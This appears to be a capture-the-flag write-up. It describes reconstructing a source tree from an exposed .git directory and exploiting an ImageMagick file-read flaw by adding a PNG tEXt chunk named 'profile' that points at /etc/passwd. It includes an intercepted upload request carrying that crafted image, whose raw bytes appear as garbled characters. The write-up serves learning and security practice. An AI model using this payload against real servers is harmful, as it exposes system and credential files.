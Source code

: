 Looking at the version of magick (another name for imagemagick) we can see a lot of results for this version with results hinting at a arbitrary file reads. Reviewing these results describes the vulnerability but does not give specifics, it's only by reviewing the PoC code that it becomes clear that the attack here includes attaching additional data to a png image.

PNG files are seperated into chunks which can hold data not specifically just image data, this could include the header, but can also hold many different types of information. The full list of these types of chunk can be seen here https://www.w3.org/TR/2003/REC-PNG-20031110/#11Chunks. 

The chunk which is used in these PoC seems to be the `tEXt` chunk which 'contains a keyword and a text string, in the format:'

- Keyword 	1-79 bytes (character string)
- Null separator 	1 byte (null character)
- Text string 	0 or more bytes (character string)

When reviewing the PoC code what actually happens is a `tEXt` chunk is addded with the keyword as `profile` and the text string as the desired file. 

# Assess

## Automated .git directory rebuilding 
As previously mentioned there are a few tools which can help rebuild a .git repo from scratch but i'm trying to test myself so i ended up writing my own at about 80 lines. 

It's a pretty simple challenge which you from a few static files use gits own utility to generate the hashes of missing files, which gives a path to the remote repo to download. Finally using git ls-files and git checkout `filename` is enough to recreate the source from scratch.

## ImageMagick Local file read


I took ages doing this and it's only due to the fact i was having a hard time uploading the edited image through python, the page itself obviously doesn't give much indication when it actually fails which it does often if the format of the webkitform isn't exactly formatted the way that the system wants it...

The way the form needs to be uploaded can be seen by intercepting the upload POST request via burp:

```

------WebKitFormBoundaryrcZ9A9IDGz7zS7w4
Content-Disposition: form-data; name="toConvert"; filename="enc.png"
Content-Type: image/png

PNG

   
IHDR       ¿6Ì   tEXtprofile /etc/passwdF[×X   IDATxìýi$irß	þô¹ÌÌ="²xì|ÿ³#²²#³r  Ù@UînfÏ¹/TÍ"³+²+2äÝA£®Èws³GUÿÊcl?¯1'Þ¹d¶²³LÎ9î£Ã àãÌç_W¾¾m,üá÷¯<+ËrÅùHHË5à\¤U!oV+o¿~áþö%%ZmÐaÃÓÅ³ï%EÖÇ+¯¿þõþÆûíûýýåÚ÷ÇdðþþNkçÞ;Û¶1P[cAgPk%¦ÐGc cj) 61ÑÑZ¥J­
#Aë=g¼ÔZpâHBô1¦#Á{âó<á½'ÆÈõ2B`.8' µÆãñ`è½s¦BLà!ZkÔZ­ã½×ïÛ3µUÞßß¸?îýþ ÷NïR

```
